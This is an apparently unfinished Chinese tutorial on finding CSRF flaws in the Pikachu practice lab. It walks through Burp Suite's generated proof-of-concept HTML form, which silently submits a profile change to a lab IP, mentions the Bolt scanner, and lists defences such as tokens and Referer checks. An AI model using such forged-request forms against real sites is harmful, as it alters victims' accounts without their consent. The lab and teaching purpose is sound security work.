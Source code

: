 # CSRF漏洞

# CSRF漏洞检测

> 用 pikachu靶场做演示

## 半自动检测

### 用BurpSuite检测

登录账号

![](https://pic.imgdb.cn/item/64c8d71d1ddac507cc028a46.jpg)

点击**“修改个人信息”**，开启抓包，将性别boy改成girl。
![](https://pic.imgdb.cn/item/64c8e0a61ddac507cc15038a.jpg)

鼠标右键选择“Engagement tools”——“Engagement tools”
![](https://pic.imgdb.cn/item/64c8e10f1ddac507cc1593e1.jpg)

把生成的html代码复制到新建的html文件中：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.31.6/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="girl" />
      <input type="hidden" name="phonenum" value="18626545453" />
      <input type="hidden" name="add" value="chain" />
      <input type="hidden" name="email" value="vince&#64;pikachu&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

丢掉之前抓到的包(也就是性别还是boy)，关闭抓包，把html文件拖到浏览器中：
![](https://pic.imgdb.cn/item/64c8e27d1ddac507cc181ca9.jpg)

点击按钮，可以看到性别变成了girl，说明存在CSRF漏洞。
![](https://pic.imgdb.cn/item/64c8e2d41ddac507cc18ae63.jpg)

​	

### CSRF Tester

​	

​	

## 全自动化

### Bolt

```
bolt.py -u http://xxxx
```

​	

​	

# CSRF漏洞防御

1. 通过请求头`Referer`判断请求是否从当前网站发起。
2. 通过Token比对判断。
3. 二次验证：
   1. 输入旧密码
   2. 人机验证
   3. 短信验证码
   4. 扫码
   5. 人脸识别
4. 浏览器的保护措施。

